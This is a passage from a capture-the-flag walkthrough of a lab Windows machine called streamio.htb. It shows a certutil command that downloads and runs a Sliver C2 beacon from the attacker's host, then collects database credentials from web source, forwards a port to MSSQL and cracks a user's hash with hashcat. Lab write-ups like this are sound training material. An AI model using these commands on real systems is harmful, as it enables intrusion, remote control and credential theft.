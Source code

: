 Since the shell is not really being uploaded, but included in the code, we will have to include the webshell with every command. 

![e092817e578e7cae56283fb65f8c4794.png]({{ site.baseurl }}/images/e092817e578e7cae56283fb65f8c4794.png)
*It works!*

Now let's get a sliver beacon going, 

#### *payload*

*In actual red-team engagements, please do not ever just drop a bare sliver c2 shell on the system, you will get flagged by EDR or anything else for that matter immediately*

```cmd

certutil.exe -f -split -urlcache http://10.10.14.117/rs.exe && .\rs.exe

```

![8cfcea2cb8dd744d9e1ece7d6219566c.png]({{ site.baseurl }}/images/8cfcea2cb8dd744d9e1ece7d6219566c.png)

***

## Discovering db_user && db_admin credentials 
found at *C:\inetpub\streamio.htb\admin\index.php* in web source of the admin pages
![5534b13189a2a56bcf7ed9b0d07340fa.png]({{ site.baseurl }}/images/5534b13189a2a56bcf7ed9b0d07340fa.png)

*there are also creds for db_user, but he has less privileges, thus we won't use them*

## Looking at the MSSQL db

![f65d0320b6c921e75ca7a45105780f24.png]({{ site.baseurl }}/images/f65d0320b6c921e75ca7a45105780f24.png)
If we run `netstat -ano` we can see a list of processes on ports, we have a port for MSSQL, so we are going to forward our local machines port to the vulnerable server, to have a look inside.

![5b42455c03d93cdc03030c0711ad5752.png]({{ site.baseurl }}/images/5b42455c03d93cdc03030c0711ad5752.png)

I then found creds for user nikk37, that exists in the windows domain we are attacking
![91983bdab4dc80e03c39b0fce481c6c7.png]({{ site.baseurl }}/images/91983bdab4dc80e03c39b0fce481c6c7.png)

![4f82ed80b48bdff3614f31e0fb3e0519.png]({{ site.baseurl }}/images/4f82ed80b48bdff3614f31e0fb3e0519.png)

Let's crack the hash using hashcat 

```
hashcat -m 0 -a 0 nikk37.hash --username -o nikk37.recovered /usr/share/wordlists/rockyou.txt
```

![f0614a847aebe1027f03d7b5dcd972cf.png]({{ site.baseurl }}/images/f0614a847aebe1027f03d7b5dcd972cf.png)

***

## Privilege escalation
